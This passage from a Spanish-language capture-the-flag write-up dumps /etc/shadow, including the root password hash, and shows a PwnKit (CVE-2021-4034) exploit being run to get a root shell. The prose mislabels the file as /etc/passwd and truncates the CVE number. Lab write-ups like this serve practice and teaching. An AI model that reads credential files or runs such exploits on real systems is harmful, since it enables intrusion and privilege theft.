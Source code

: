 También verificamos que podemos visualizar el archivo `/etc/passwd` el cual nos aparece la contraseña del usuario`root` cifrada. Intentamos descifrarla pero no obtuvimos éxito en el resultado.

```bash
[>] /etc/shadow
[+] contents of /etc/shadow:
root:$6$UgdyXjp3KC.86MSD$sMLE6Yo9Wwt636DSE2Jhd9M5hvWoy6btMs.oYtGQp7x4iDRlGCGJg8Ge9NO84P5lzjHN1WViD3jqX/VMw4LiR.:18760:0:99999:7:::
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
sys:*:18375:0:99999:7:::
sync:*:18375:0:99999:7:::
games:*:18375:0:99999:7:::
man:*:18375:0:99999:7:::
lp:*:18375:0:99999:7:::
mail:*:18375:0:99999:7:::
news:*:18375:0:99999:7:::
uucp:*:18375:0:99999:7:::
proxy:*:18375:0:99999:7:::
www-data:*:18375:0:99999:7:::
backup:*:18375:0:99999:7:::
list:*:18375:0:99999:7:::
irc:*:18375:0:99999:7:::
gnats:*:18375:0:99999:7:::
nobody:*:18375:0:99999:7:::
systemd-network:*:18375:0:99999:7:::
systemd-resolve:*:18375:0:99999:7:::
systemd-timesync:*:18375:0:99999:7:::
messagebus:*:18375:0:99999:7:::
syslog:*:18375:0:99999:7:::
_apt:*:18375:0:99999:7:::
tss:*:18375:0:99999:7:::
uuidd:*:18375:0:99999:7:::
tcpdump:*:18375:0:99999:7:::
landscape:*:18375:0:99999:7:::
pollinate:*:18375:0:99999:7:::
systemd-coredump:!!:18389::::::
lxd:!:18389::::::
usbmux:*:18891:0:99999:7:::
```

### Obtaining root shell - pwnkit (CVE-2021-4034)

Revisando posibles vulnerabilidades del equipo, nos encontramos que el equipo era vulnerable a `CVE-2021-403`.

{% embed url="https://github.com/joeammond/CVE-2021-4034/" %}

Al ejecutar el exploit, verificamos que logramos obtener una bash como usuario`root`.

```bash
lp@antique:/tmp$ python3 exploit.py
python3 exploit.py
id
uid=0(root) gid=7(lp) groups=7(lp),19(lpadmin)
bash
whoami
root
script /dev/null -c bash
Script started, file is /dev/null
root@antique:/tmp#
```
